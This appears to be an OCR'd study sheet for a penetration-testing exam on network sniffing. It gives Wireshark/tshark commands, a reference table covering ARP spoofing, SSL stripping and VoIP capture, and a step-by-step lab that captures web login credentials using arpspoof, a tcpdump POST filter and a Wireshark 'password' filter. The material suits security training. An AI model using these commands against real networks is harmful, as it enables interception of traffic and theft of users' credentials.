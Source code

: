 Decrypt SSL Traffic (When Private Key Available)

```
wireshark -o "ssl.desegment_ssl_records: TRUE" -o "ssl.desegment_ssl_application_data: TRUE" -o "ssl.keys_list: 10.10.10.10,443,http,key.pem" capture.pcap
```

Extract Files from PCAP

```
tshark -r capture.pcap --export-objects "http,./exported_files"
```

### Exam-Critical Reference Table

| Technique        | Tool      | Command Example    | Key Filters             | Notes | Extra |
| ---------------- | --------- | ------------------ | ----------------------- | ----- | ----- |
| Passive Sniffing | tcpdump   | `-nn -vv -c 100`   | `port 80`               |       |       |
| ARP Spoofing     | ettercap  | `-T -q -M arp`     | `arp.duplicate-address` |       |       |
| SSL Stripping    | sslstrip  | `-a -f -k`         | `http` contains "login" |       |       |
| VoIP Capture     | wireshark | `udp.port == 5060` | `sip`                   |       | rtp   |

### Practical Exam Checklist

1. Capture FTP/HTTP credentials
2. Perform ARP poisoning attack
3. Decrypt SSL traffic (when possible)
4. Analyze captured VoIP calls
5. Document findings with screenshots

### Pro Tips:

- **Always check**: `arp -a` for MAC address conflicts
- **Critical ports**: 21 (FTP), 25 (SMTP), 80 (HTTP), 5060 (SIP)
- **Exam trick**: Use `-s0` in tcpdump for full packet capture
- **Must-know filters**: `tcp.analysis.flags`, `http.cookie`

### Real-World Exam Lab

Task: Capture Web Login Credentials

```
1. arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

```
2. tcpdump -i eth0 -w login.pcap 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'
```

```
3. wireshark login.pcap
```

```
4. Filter: http.request.method == "POST" && http contains "password"
```
